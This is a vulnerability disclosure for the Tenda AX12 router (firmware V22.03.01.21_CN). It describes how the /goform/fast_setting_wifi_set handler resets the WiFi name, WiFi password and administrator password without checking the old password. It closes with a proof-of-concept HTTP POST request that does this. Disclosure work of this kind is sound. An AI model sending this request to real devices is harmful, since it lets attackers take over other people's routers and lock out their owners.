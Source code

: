 ## Vulnerability description

Affect device：Tenda-AX12 V22.03.01.21_CN([https://www.tenda.com.cn/download/detail-3237.html](https://www.tenda.com.cn/download/detail-3237.html))

Vulnerability Type: Cross Site Request Forgery (CSRF)

Impact:  Restore the device to factory settings, modify the login background password, and modify the WiFi name

## Vulnerability cause

This vulnerability occurs under the /goform/fast_setting_wifi_set interface. This interface is actually an interface for resetting the WiFi name and password after the device is restored to factory settings.
We can control the incoming web parameters to achieve the effect of modifying the WiFi name and password, and in this function, because it is a reset function, it will not be compared with the previous password.

This interface corresponds to the processing function sub_4335C0.

First, get the ssid, determine whether it is empty, and then if the WiFi password is not empty, it will be encrypted by psk-mixed by default, then give the WiFi name, encryption method, and password to v17, and then call tapi_set_wificfg, guessing it should be setting the WiFi password , and then set 5g in the same way.
![](./image/1.png)

Then it is to set the administrator password, first get the parameter loginPwd passed in from the front end, and then set it in the /etc/config/admin file, the following are some irrelevant if judgments, it feels useless, and the administrator password has been written into it admin file.
![](./image/2.png)

## POC

If there is a valid cookie, we can construct parameters to achieve the purpose of modifying the WiFi name password and administrator password.

```http
POST /goform/fast_setting_wifi_set HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 10
Origin: http://192.168.0.1
Connection: close
Cookie: password=xxxxxxxxxx
Referer: http://192.168.0.1/main.html

ssid=xxx&WrlPassword=xxx&power=high&loginPwd=(md5(xxx))
```


